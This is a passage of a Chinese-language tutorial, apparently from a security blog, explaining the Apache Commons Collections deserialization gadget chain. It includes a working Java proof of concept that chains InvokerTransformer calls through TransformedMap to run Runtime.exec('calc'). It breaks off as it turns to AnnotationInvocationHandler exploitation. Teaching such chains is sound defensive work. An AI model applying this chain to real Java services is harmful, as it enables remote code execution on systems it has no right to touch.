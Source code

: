 ![](http://drops.javaweb.org/uploads/images/c82efc99f4fd086abe58ff77826cd68146bd50cb.jpg)

这里的`decorate`方法就是对外创建`TransformedMap`对象的方法。在代码中我们可以清晰找到`transform`方法是如何被调用的。

![](http://drops.javaweb.org/uploads/images/66f040754e6530296e5ed8a485fae9be412abecc.jpg)

以及`entry`对象调用`setValue`时，执行的`checkSetValue`：

![](http://drops.javaweb.org/uploads/images/4965eb1b238fe786a20915634bc9124fed0c6478.jpg)

为了搞清楚为啥在`setValue`的时候发生了什么，我们来看代码：

```
public class TransformTest {
    public static void main(String[] args) {
        Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class},
                    new Object[]{"getRuntime", new Class[0]}),
            new InvokerTransformer("invoke", new Class[]{Object.class,Object[].class}, 
                    new Object[]{null, new Object[0]}),
            new InvokerTransformer("exec", new Class[]{String.class}, 
                    new Object[]{"calc"})
        };
        Transformer chain = new ChainedTransformer(transformers) ;
        Map innerMap = new HashMap() ;
        innerMap.put("name", "hello") ;
        Map outerMap = TransformedMap.decorate(innerMap, null, chain) ;

        Map.Entry elEntry = (Entry) outerMap.entrySet().iterator().next() ;
        elEntry.setValue("hello") ;
    }
}

```

代码中，我们将我们要执行的多行代码分散到各个`transformer`里，使用`InvokeTransformer`类来执行我们的方法。接着用`TransformedMap`来执行`transfom`方法触发代码。

这里的原生Map用来被`TransformedMap`包装，然后map的`entry`对象调用了`setValue`方法。在java环境中执行上面的代码，最后会弹出计算器：

![](http://drops.javaweb.org/uploads/images/5fb4d785448d93bb4d91e27a2ee37ec6a1280d89.jpg)

到目前为止，我们找了一些创造RCE的条件：

（1）使用了`InvokeTransformer`的对象，并在`transform`方法里执行代码；  
（2）使用`TransformedMap`通过执行setValue方法来触发`transform`方法。

对于一个“不讲道理”的RCE，显然需要另一个好用的类来同时满足上面两点，并且在`readObject`里进行调用。`readObject`方法是java的序列化对象（实现了`Serializable`接口）中首先会调用的方法。

0x02 利用
=====

这里配合我们执行代码的类就是`AnnotationInvocationHandler`，我们来看看`readObject`方法里面有什么逻辑：
